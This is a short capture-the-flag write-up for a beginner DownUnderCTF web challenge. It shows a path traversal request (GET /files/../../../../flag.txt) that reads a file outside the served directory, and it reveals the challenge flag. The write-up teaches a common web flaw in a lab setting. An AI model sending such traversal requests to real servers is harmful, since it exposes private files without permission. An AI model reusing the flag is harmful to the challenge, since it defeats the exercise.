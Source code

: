 # static file server (beginner)
Here's a simple Python app that lets you view some files on the server.

Author: joseph

https://web-static-file-server-9af22c2b5640.2023.ductf.dev

## Files
static-file-server.zip

## Solution
The website shows the following:
[File Server](images/static_file_server.png)

Opening the file _not the flag_ shows the following content:
```
The real flag is at /flag.txt
```

So we assume at this point, that the server vulnerable to path traversal.

The current file has the path loads up with the request: 
```
GET /files/not_the_flag.txt HTTP/2
```

To traverse now we can try the following request:
```
GET /files/../../../../flag.txt HTTP/2
```

Our assumption was correct and we get back the flag: `DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}`
